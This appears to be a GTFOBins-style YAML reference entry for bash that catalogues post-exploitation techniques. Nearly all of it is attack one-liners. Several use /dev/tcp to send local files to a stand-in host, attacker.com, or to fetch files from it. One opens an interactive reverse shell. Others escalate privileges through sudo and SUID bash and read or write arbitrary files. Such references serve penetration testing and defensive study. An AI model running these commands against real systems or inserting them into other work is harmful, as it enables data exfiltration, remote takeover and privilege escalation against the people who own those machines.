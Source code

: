```yaml
---
functions:
  execute-interactive:
    - code: bash
  sudo-enabled:
    - code: sudo bash
  suid-enabled:
    - code: ./bash -p
  upload:
    - description: Send local file in the body of an HTTP POST request. Run an HTTP service on the attacker box to collect the file.
      code: |
        export RHOST=attacker.com
        export RPORT=12345
        export LFILE=file_to_send
        bash -c 'echo -e "POST / HTTP/0.9\n\n$(<$LFILE)" > /dev/tcp/$RHOST/$RPORT'
    - description: Send local file using a TCP connection. Run `nc -l -p 12345 > "file_to_save"` on the attacker box to collect the file.
      code: |
        export RHOST=attacker.com
        export RPORT=12345
        export LFILE=file_to_send
        bash -c 'cat $LFILE > /dev/tcp/$RHOST/$RPORT'
  download:
    - description: Fetch a remote file via HTTP GET request.
      code: |
        export RHOST=attacker.com
        export RPORT=12345
        export LFILE=file_to_get
        bash -c '{ echo -ne "GET /$LFILE HTTP/1.0\r\nhost: $RHOST\r\n\r\n" 1>&3; cat 0<&3; } \
            3<>/dev/tcp/$RHOST/$RPORT \
            | { while read -r; do [ "$REPLY" = "$(echo -ne "\r")" ] && break; done; cat; } > $LFILE'
    - description: Fetch remote file using a TCP connection. Run `nc -l -p 12345 < "file_to_send"` on the attacker box to send the file.
      code: |
        export RHOST=attacker.com
        export RPORT=12345
        export LFILE=file_to_get
        bash -c 'cat < /dev/tcp/$RHOST/$RPORT > $LFILE'
  reverse-shell-interactive:
    - description: Run `nc -l -p 12345` on the attacker box to receive the shell.
      code: |
        export RHOST=attacker.com
        export RPORT=12345
        bash -c 'bash -i >& /dev/tcp/$RHOST/$RPORT 0>&1'
  file-read:
    - description: It trims trailing newlines and it's not binary-safe.
      code: |
        export LFILE=file_to_read
        bash -c 'echo "$(<$LFILE)"'
  file-write:
    - code: |
        export LFILE=file_to_write
        bash -c 'echo data > $LFILE'
---
```

